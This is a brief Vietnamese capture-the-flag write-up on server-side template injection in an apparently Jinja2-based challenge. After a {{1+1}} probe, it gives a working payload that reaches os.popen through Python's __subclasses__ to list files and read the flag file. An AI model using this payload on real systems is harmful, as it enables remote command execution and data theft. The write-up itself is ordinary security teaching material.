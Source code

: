 ### url: http://61.28.237.24:30103/
![image](https://user-images.githubusercontent.com/20945393/119262390-3ed5f600-bc05-11eb-9b05-ec39dd0dcfd9.png)
### Đây là một vấn đề server side template injection
### Ta kiểm tra thử xem thế nào
url: http://61.28.237.24:30103/{{1+1}}
![image](https://user-images.githubusercontent.com/20945393/119262570-e4896500-bc05-11eb-9068-4bf60a38edee.png)
### Có thể là jinja2 chăng? Có vẻ là hiệu quả
http://61.28.237.24:30103/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls").read()}}
![image](https://user-images.githubusercontent.com/20945393/119262641-1ac6e480-bc06-11eb-90ef-67125ecac579.png)
### Cuối cùng 
http://61.28.237.24:30103/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat ../flag_HKOOS2lrdD").read()}}
![image](https://user-images.githubusercontent.com/20945393/119262669-39c57680-bc06-11eb-9fbe-3257e33565c3.png)
flag: HCMUS-CTF{404_teMpl4t3_1njEctIon}
